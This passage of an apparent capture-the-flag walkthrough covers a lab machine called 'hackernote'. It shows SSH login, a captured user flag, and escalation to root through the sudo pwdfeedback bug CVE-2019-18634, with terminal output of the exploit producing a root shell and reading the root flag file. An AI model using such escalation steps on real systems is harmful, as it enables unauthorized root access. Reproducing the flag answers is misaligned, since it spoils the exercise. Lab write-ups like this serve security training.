 `dak4ddb37b`

Log in as the user to SSH with the credentials you have.

`No answer needed`

What's the user flag?

```
james@hackernote:~$ cat user.txt
thm{56911bd7ba1371a3221478aa5c094d68}
```

`thm{56911bd7ba1371a3221478aa5c094d68}`

## Task 5 Escalate

**Enumeration of privileges**

Now that you have an SSH session, you can grab the user flag. But that shouldn't be enough for you, you need root.
A good first step for privilege escalation is seeing if you can run sudo. You have the password for the current user, so you can run the command:

`sudo -l`

This command tells you what commands you can run as the superuser with sudo. Unfortunately, the current user cannot run any commands as root. You may have noticed, however, that when you enter your password you see asterisks. This is not default behaviour. There was a recent CVE released that affects this configuration. The setting is called pwdfeedback.

```
james@hackernote:~$ sudo -l
[sudo] password for james: **********
```

What is the CVE number for the exploit?

`CVE-2019-18634`

Find the exploit from https://github.com/saleemrashid/ and download the files.

`No answer needed`

Compile the exploit from Kali linux.

`No answer needed`

SCP the exploit binary to the box.

`No answer needed`

Run the exploit, get root.

```
james@hackernote:~$ ls -la
total 928
drwxr-xr-x 4 james james   4096 Nov 14 21:21 .
drwxr-xr-x 4 root  root    4096 Feb  8  2020 ..
lrwxrwxrwx 1 james james      9 Feb 10  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james    220 Feb  8  2020 .bash_logout
-rw-r--r-- 1 james james   3771 Feb  8  2020 .bashrc
drwx------ 2 james james   4096 Feb  8  2020 .cache
-rwxr-xr-x 1 james james 916872 Nov 14 21:21 exploit
drwx------ 3 james james   4096 Feb  8  2020 .gnupg
-rw-r--r-- 1 james james    807 Feb  8  2020 .profile
-rw------- 1 james james     38 Feb  8  2020 user.txt
james@hackernote:~$ ./exploit
[sudo] password for james:
Sorry, try again.
# id
uid=0(root) gid=0(root) groups=0(root),1001(james)
# cat /root/root.txt
```